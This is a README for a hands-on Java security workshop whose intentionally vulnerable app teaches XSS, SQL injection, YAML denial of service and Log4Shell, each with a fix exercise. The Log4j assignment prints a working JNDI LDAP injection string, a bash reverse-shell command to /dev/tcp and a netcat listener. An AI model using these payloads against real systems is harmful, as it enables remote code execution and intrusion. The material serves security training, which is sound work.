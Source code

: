 # DevNexus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up --build
    ```
- Run on your local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

### Login
- Username: `admin`
- Password: `foobar`

## Assignment 1
### Cross-site scripting

You can click on the username on the search page to show you more details.
This page is vulnerable to a cross-site scripting attack.
![DirectLink1](image/directlink.png)
![DirectLink2](image/directlink2.png)

### 1a Try to create an alert loading the page
- [Hint 1](hints/xss/hint1.md)
- [Hint 2](hints/xss/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/xss/hint3.md)
- [Hint 4](hints/xss/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/xss/hint5.md)
- [Hint 6](hints/xss/hint6.md)
- [Hint 7](hints/xss/hint7.md)



## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance, `Super%` will give you the result for **Superman**
Using the search term `%man`

![Search](image/search.png)

### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Click on `import` to import new users using a YAML file.
![import](image/import.png)
![yaml](image/yaml.png)

### 3a Upload 2 new users using a YAML file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)



## Assignment 4 (Bonus assignment)
### Log4j

For this exercise, you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands.

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username.

### 4b startup the evil LDAP server
From the root of the project, do the following:

```
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch Netcat listening to port 9001
```
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create a serialized java payload containing a gadget chain from the outdated Apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your Docker container, connect to the LDAP server on your local machine

Use below as the username with any given password 
```
${jndi:ldap://host.docker.internal:9999/Commons}
```



If everything works out, you just executed a reverse shell command to port 9001.
Because your Netcat is listening to this, you now have shell access to that machine. The terminal you started Netcat in should now look similar to this.

![ncat](image/ncat.png)

Play around as you now have remote access to this machine by leveraging a remote code execution.







